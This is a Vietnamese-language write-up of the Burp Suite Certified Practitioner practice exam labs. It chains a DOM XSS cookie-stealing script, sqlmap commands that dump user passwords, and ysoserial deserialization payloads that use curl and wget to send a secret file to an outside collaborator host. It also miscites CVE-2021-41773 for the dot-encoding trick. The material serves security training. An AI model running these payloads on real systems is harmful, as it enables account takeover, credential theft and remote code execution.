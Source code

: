 # Write-up for Burp Suite Certified Practitioner Practice Exam

Author: `HoangNCH`

### 1. Khai thác DOM-based XSS tại chức năng "Search the blog":

##### a) Initial reconnaissance:

- Sử dụng DOM Invader để inject canary vào form, ta phát hiện được các source và sink như sau:

![image-20211213222734274](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213222734274.png)

- Trong đó có sink chứa hàm `eval` có thể chạy được script js, còn source nằm ở hàm `location.search` sẽ đọc nội dung phần querystring của url hiện tại (`?query=xss2%27"<>`), click vào stack trace để xem sink và source nằm ở đâu trong js code:

```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);  // sink
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);				 // source
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        ...
}

```

- `window.location.search` có thể lấy data tùy ý mà ta nhập vào từ url parameter `query`, sau đó khi `xhr.send()` thì hàm `xhr.onreadystatechange` sẽ chạy, dẫn đến biến `searchResultsObj` được khởi tạo và được gán bằng response của server khi request `"GET", path + window.location.search` được gửi. Vấn đề là chúng ta chưa biết `path` là gì. Tìm trong HTTP History của Burp Suite ta có:

![image-20211213224603286](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213224603286.png)

- Như vậy `path=="/search"` và  `searchTerm=="xss2'"<>"`, chính là canary mà ta truyền vào. Response ở hình trên ở dạng JSON và do các kí tự truyền vào có `"` nên định dạng JSON bị lỗi, do đó mục `..search results for..` không hiện ra gì. Chúng ta cần phải escape nó.

##### b) Escape and bypass:

- Dùng payload `"+alert(1)}//` để escape JSON.

![image-20211213225524527](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213225524527.png)

- Do web app lại blacklist`document.cookie` nên ta chỉ có thể `alert(1)`:

![image-20211213225726052](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213225726052.png)

- Nhưng ta vẫn có thể bypass bằng cách dùng `document["cookie"]`:

![image-20211213225835470](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213225835470.png)

- Web app còn blacklist cả dấu `.`, vốn hay được dùng trong url. Thử payload `"+alert(' . ')}//`:

![image-20211213230124046](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213230124046.png)

- Nhưng chúng ta có thể url encode các dấu chấm thành `%2e` (CVE-2021-41773). Thử payload `"+(location="https://www%2ew3schools%2ecom/?a=1")}//`:

![image-20211213230633913](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213230633913.png)

##### 3) Exploit:

- Sử dụng exploit server của bài lab, tại `body` sử dụng script mẫu như sau:

```html
<script>
location='https://<lab id>.web-security-academy.net/?query=%22%2B%28location%3D%22https%3A%2F%2Fexploit-<exloit server id>%252eweb-security-academy%252enet%2F%2F%3Fcookie%3D%22%2Bdocument%5B%22cookie%22%5D%29%7D%2F%2F';
</script>
```

- Sau khi bấm `deliver exploit to victim` rồi `view exploit` thì vào `access log` kiểm tra:

![image-20211213231136699](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213231136699.png)

- Check access log chúng ta thấy một cookie "lạ", không phải nằm trên client side của chúng ta mà có lẽ là của victim (được highlight bên dưới):

![image-20211213231618624](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213231618624.png)

- Copy cookie này rồi thay thế cho cookie hiện tại thì ta chiếm được account `carlos`:

![image-20211213231748164](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213231748164.png)

### 2) Khai thác SQL Injection tại chức năng "Advanced search": 

##### a) Initial reconnaissance:

- Sau khi login vào thì chúng ta unlock được chức năng "Advanced search":
- Thử search tại API `GET /advanced_search` với url parameter `sort-by=DATE'`thì server bị lỗi SQL:

![image-20211213233720286](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211213233720286.png)

- Như vậy web app chắc chắn bị SQLi, đồng thời ta biết được database mà nó đang sử dụng là **PostgreSQL**. Thử payload `(case when (1=0) then 2 else 1/0 end)` để comfirm có thể khai thác boolean-based SQLi.

##### b) SQLmap fuzzing:

- Sử dụng SQLmap với endpoint và url parameter đã biết bị dính SQLi là `sort-by` (đánh dấu bằng dấu `*`): 

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump
```

![image-20211214095628881](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214095628881.png)

![image-20211214102141470](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214102141470.png)

![image-20211214103312460](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214103312460.png)

- Sau khi enumerate bằng SQLmap thì có được current database là `public`, có 1 table "khả nghi" là `users`, thử dump table này thì thấy nó có 2 column là `username` và `password`. Do đó tiếp tục dùng lệnh SQLmap sau để dump 2 column kia:

```bash
sqlmap -u "https://<lab-id>.web-security-academy.net/advanced_search?query=sql&sort-by=DATE*&BlogArtist=" --cookie="_lab=47%7cMC0CFQCIke9NEAbxqv63GhR%2bSJBXBrPoOgIUW8U8i7A8lWst7ZEjpcYY0yWeY5vTzJLtnakt2%2fXCVQv%2fRHNcmnuzMElPQJ3nNX%2bnY9swdX11KiKAG9ji90bBZHprV07d4B8ImNY0Z4BEe4Lwe73XC9lvDudBWTDbWaVOnqT4f1jVQ9IJ; session=oVXI3YjjITIgfOP1LCsG2fp6zCpZVKOS" --dump -D public -T users -C username,password
```

![image-20211214105324719](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214105324719.png)

- Lấy được `administrator | cjbnksa6guo0y4a96o04 `, account có role admin do đó chúng ta có thể unlock được chức năng "Admin panel":

![image-20211214105637238](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214105637238.png)

### 3) Khai thác java deserialization tại chức năng "Admin panel":

##### a) Initial reconnaissance:

- Để ý thấy khi vào chức năng này thì tại client side chúng ta được cấp cho một cookie là "admin-prefs":

![image-20211214112246704](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214112246704.png)

- Nếu thay đổi cookie này tùy ý thì:

![image-20211214233523121](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214233523121.png)

- Decode này bằng **Decoder** của Burp Suite ta biết được quá trình encode của cookie sau khi serialize là : gzip encode -->  base64 encode --> url encode:

![image-20211214123526651](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214123526651.png)

- Trong plain text trên có đoạn `lab.display.admin.prefs.JavaPrefsCookieStrategy`. Nhiều khả năng web app này sẽ bị dính vuln **java deserialization** tại cookie  `admin-prefs` này.

##### b) Create pre-built gadget chain with ysoserial and exploit:

- Sau khi thử tạo các gadget chain bằng tool [ysoserial](https://github.com/frohoff/ysoserial) theo sample như sau:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar <payload types> '[command]' | gzip -f | base64 -w0
```

![image-20211215154314051](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154314051.png)

- Ta phát hiện có một payload type có thể dùng được là **CommonsCollections6** vì nó trả về status code 200, trong khi các payload type khác đều trả về status code 500 và **ClassNotFoundException** (các payload type khác có thể có exception khác, dùng phương pháp thử rồi loại suy thông qua exeption để tìm ra payload type phù hợp). 

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'curl https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211214173728534](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211214173728534.png)

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'curl -X POST -d Hello https://<burp colab id>.burpcollaborator.net' | gzip -f | base64 -w0
```

###### Kết quả:

![image-20211215153848790](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215153848790.png)

![image-20211215163312473](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215163312473.png)

- Điều này có nghĩa là gadget chain tạo với payload type **CommonsCollections6** là hợp lệ và chúng ta có thể RCE thông qua gadget chain này. tạo payload như trong hình:

```bash
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections6 'wget --post-file /home/carlos/secret c2ft9nahenbthexwc6hd0c9m4da3ys.burpcollaborator.net' | gzip -f | base64 -w0
```



![image-20211215154458664](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154458664.png)

- Lưu ý trước khi cho payload trên vào cookie `admin-prefs` thì phải URL encode nó:

![image-20211215154844486](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215154844486.png)

- Cuối cùng thì chúng ta gửi request và poll Burp Collaborator Client và đợi kết quả:

![image-20211215155200561](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155200561.png)

###### Lưu ý: Cách khai thác Java Deserialize ở trên dựa vào bài lab của PortSwigger là [Exploiting Java deserialization with Apache Commons](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons).

##### 4) Kết quả Practice Exam BSCP:

![image-20211215155436265](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155436265.png)

![image-20211215155444115](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215155444115.png)

![image-20211215165432252](C:\Users\antoinenguyen\AppData\Roaming\Typora\typora-user-images\image-20211215165432252.png)

